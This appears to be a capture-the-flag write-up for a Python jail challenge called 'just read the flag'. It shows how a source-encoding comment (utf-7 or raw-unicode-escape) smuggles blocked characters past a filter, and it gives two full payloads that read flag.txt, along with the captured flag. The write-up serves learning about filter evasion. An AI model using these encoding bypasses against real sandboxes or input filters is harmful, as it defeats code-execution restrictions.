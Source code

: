 # just read the flag [1000 points] (1 solves) (Post-Match Solve)
### utf-8
The magic in this challenge is use comment to specify `utf-7` encoding, allowing us to encode restricted characters using allowed sequences. Then, encode restricted characters like `(`, `)`, `"`, `.` using UTF-7 sequences: 
```
ACg -> (
ACk -> )
ACI -> "
AC4 -> .
```
Full payload:
```bash
Just read the flag.txt! Very simple!
> # -*- coding: utf-7 -*-
> print+ACg-open+ACg-+ACI-flag+AC4-txt+ACI-+ACk-+AC4-read+ACg-+ACk-+ACk-
> 
firebird{v3ry_51mpl3_70_r34d_7h3_fl46,_r16h7?}
```
---
### raw‑unicode‑escape codec
Another similar way to solve this challenge would be use Python's `raw‑unicode‑escape codec`:
```
\u0028 -> (
\u0029 -> )
\u0022 -> "
\u002E -> .
```
Full payload:
```bash
Just read the flag.txt! Very simple!
> # -*- coding: raw-unicode-escape -*-
> print\u0028open\u0028\u0022flag\u002Etxt\u0022\u0029\u002Eread\u0028\u0029\u0029
>
firebird{v3ry_51mpl3_70_r34d_7h3_fl46,_r16h7?}
```